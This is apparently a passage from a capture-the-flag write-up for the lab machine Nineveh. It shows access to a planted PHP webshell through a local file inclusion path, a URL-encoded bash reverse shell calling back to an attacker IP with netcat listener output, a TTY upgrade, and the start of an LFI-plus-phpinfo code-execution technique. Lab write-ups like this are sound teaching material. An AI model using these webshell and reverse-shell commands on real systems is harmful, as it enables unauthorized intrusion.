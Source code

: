 Now I can access the webshell I left earlier at
`http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/0xdf.php&cmd=id`

![image-20200411065028130](https://0xdfimages.gitlab.io/img/image-20200411065028130.png)

### Shell

To get a shell, I’ll just change the `cmd` to `bash -c 'bash -i >%26
/dev/tcp/10.10.14.24/443 0>%261'` (it’s important to url encode the `&` or
they will be interpreted as starting a new parameter). I get a shell in `nc`:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.43.
    Ncat: Connection from 10.10.10.43:40460.
    bash: cannot set terminal process group (1387): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@nineveh:/var/www/html/department$ 
    

Python2 isn’t on Nineveh, but Python3 is:

    
    
    www-data@nineveh:/var/www/html/department$ python -c 'import pty;pty.spawn("bash")'
    The program 'python' can be found in the following packages:
     * python-minimal
     * python3
    Ask your administrator to install one of them
    www-data@nineveh:/var/www/html/department$ python3 -c 'import pty;pty.spawn("bash")'
    

I’ll Ctrl-z, `stty raw -echo`, `fg`, `reset` to get a fully functional shell.

As www-data, I can see `user.txt` in `/home/amrois`, but I can’t read it.

## Shell as www-data (via phpinfo.php)

### Background

I remember seeing Ippsec exploit this technique in his [Poison
video](https://youtu.be/rs4zEwONzzk?t=601). Insomnia Security has a [really
neat
paper](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)
from 2011 about how LFI + PHPINFO = RCE. First, PHP has to be configured with
`file_uploads = on`. Fortunately, that is the case here:

![image-20200411070402024](https://0xdfimages.gitlab.io/img/image-20200411070402024.png)

This means that any PHP request will accept uploaded files, which are stored
to a temporary location until the PHP request is fully processed, and then
they will be thrown away. PHPINFO is nice enough to list those files. I can
show this by catching a request to `/info.php` in Burp Proxy and modify it
into a POST request with a dummy file like this:
